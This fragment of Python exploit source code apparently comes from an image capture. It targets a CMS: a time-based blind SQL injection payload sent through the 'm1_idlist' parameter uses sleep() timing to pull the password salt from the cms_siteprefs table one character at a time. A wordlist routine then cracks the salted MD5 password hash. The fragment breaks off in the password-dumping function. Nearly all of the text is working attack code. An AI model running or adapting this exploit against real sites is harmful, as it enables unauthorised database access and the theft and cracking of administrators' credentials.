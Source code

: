```bash

salt = ''
wordlist = ""
if options.wordlist:
    wordlist += options.wordlist

def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
        if(hashlib.md5(str(salt) + line).hexdigest() == password):
            output += "\n[+] Password cracked: " + line
            break
    dict.close()

def beautify_print_try(value):
    global output
    print("\033c")
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print("\033c")
    cprint(output,'green', attrs=['bold'])

def dump_salt():
    global flag
    global salt
    global output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_salt)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += '\n[+] Salt for password found: ' + salt

def dump_password():
    global flag
    global password
    global output
    ord_password = ""
```